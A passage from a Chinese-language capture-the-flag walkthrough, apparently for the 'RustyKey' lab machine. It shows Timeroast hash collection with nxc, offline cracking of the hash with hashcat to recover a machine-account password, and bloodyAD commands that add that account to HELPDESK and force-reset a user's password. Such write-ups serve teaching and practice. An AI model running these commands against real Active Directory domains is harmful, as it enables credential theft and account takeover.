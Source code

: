   
结尾）  
  
先收集一下哈希，nxc 就可以完成  

```
nxc smb dc.rustykey.htb -M timeroast
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0G8d3FgQDSqbicZFwHxnla7dhhwGWHgX9vPsEniav1wsChxnicMRuQiartA/640?wx_fmt=png&from=appmsg "null")  
  
  
这个 python 项目也可以收集👇  
> https://github.com/SecuraBV/Timeroast?tab=readme-ov-fil  
  
  
然后尝试用 hashcat 离线破解哈希，这里有个坑需要注意，根据找到的资料来看，hashcat 最新的 bate 版才支持上面这种哈希，而 kali 最新版中目前最新的 hashcat 并没有支持 31300，因此需要手动去官网下载 bate 版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0U0Lk4TiberlKfM5HUU5EhKlZia18Cyibic1UBiaiaUsKSVibhXQqpU9ZicBKrQ/640?wx_fmt=png&from=appmsg "null")  
  

```
./hashcat.bin -m 31300 -a 0 ../hashs.txt /usr/share/wordlists/rockyou.txt
```

  
哈希去掉前面的 RID，保留从$开始的部分，指定 31300 模式爆出一个密码：Rusty88!  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0XcOvOibkJcIel83OUrgbZayzPUCbIYibR6afmfibibubhFN8SohbxU4QLg/640?wx_fmt=png&from=appmsg "null")  
  
### 受保护的对象？  
  
这个哈希 rid 是 1125，查看 bloodhound 对应的机器是
```
IT-COMPUTER3
```

  
，机器账号是
```
IT-COMPUTER3$
```

  
，它对 HELPDESK 组有 AddSelf 权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0zjDfHU8ic7lWF5BANvAKMArr2d2sKINwgeXs72XTwxDQF8QFBAsPm4w/640?wx_fmt=png&from=appmsg "null")  
  
  
同时 HELPDESK 对下图四个用户有 ForceChangePassword 权限，对 Protected Objects 组有 AddMember 权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0ticKUOMhSyGoKnvlrtgfmbMrfyZEUiab7hH8jlDvLdic3CHry86QrqsOQ/640?wx_fmt=png&from=appmsg "null")  
  
  
尝试横向到第一个 BB.MORGAN 用户，给他强制改密并登录  

```
# 先把IT-COMPUTER3添加到helpdesk组内
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k add groupMember HELPDESK 'IT-COMPUTER3$'

# 修改 BB.MORGAN 用户密码
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password BB.MORGAN 'RTCC@123'
```
